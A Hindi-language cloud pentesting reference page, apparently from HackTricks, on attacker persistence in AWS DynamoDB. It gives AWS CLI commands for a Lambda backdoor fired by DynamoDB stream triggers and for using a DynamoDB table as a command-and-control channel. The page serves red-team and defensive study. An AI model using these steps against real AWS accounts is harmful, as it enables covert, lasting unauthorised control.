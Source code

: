 # AWS - DynamoDB Persistence

{{#include ../../../banners/hacktricks-training.md}}

### DynamoDB

अधिक जानकारी के लिए पहुँचें:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### DynamoDB ट्रिगर्स के साथ Lambda बैकडोर

DynamoDB ट्रिगर्स का उपयोग करके, एक हमलावर एक **गुप्त बैकडोर** बना सकता है, एक तालिका के साथ एक दुर्भावनापूर्ण Lambda फ़ंक्शन को जोड़कर। Lambda फ़ंक्शन तब सक्रिय हो सकता है जब एक आइटम जोड़ा, संशोधित या हटाया जाता है, जिससे हमलावर को AWS खाते के भीतर मनचाहा कोड निष्पादित करने की अनुमति मिलती है।
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
धारण बनाए रखने के लिए, हमलावर DynamoDB तालिका में आइटम बना या संशोधित कर सकता है, जो दुर्भावनापूर्ण Lambda फ़ंक्शन को ट्रिगर करेगा। इससे हमलावर को Lambda फ़ंक्शन के साथ सीधे इंटरैक्शन के बिना AWS खाते के भीतर कोड निष्पादित करने की अनुमति मिलती है।

### DynamoDB को C2 चैनल के रूप में

एक हमलावर DynamoDB तालिका का **कमांड और नियंत्रण (C2) चैनल** के रूप में उपयोग कर सकता है, आइटम बनाकर जिनमें कमांड होते हैं और समझौता किए गए उदाहरणों या Lambda फ़ंक्शंस का उपयोग करके इन कमांड को लाने और निष्पादित करने के लिए।
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
समझौता किए गए उदाहरण या Lambda फ़ंक्शन समय-समय पर C2 तालिका में नए आदेशों की जांच कर सकते हैं, उन्हें निष्पादित कर सकते हैं, और वैकल्पिक रूप से परिणामों को तालिका में वापस रिपोर्ट कर सकते हैं। यह हमलावर को समझौता किए गए संसाधनों पर स्थायीता और नियंत्रण बनाए रखने की अनुमति देता है।

{{#include ../../../banners/hacktricks-training.md}}
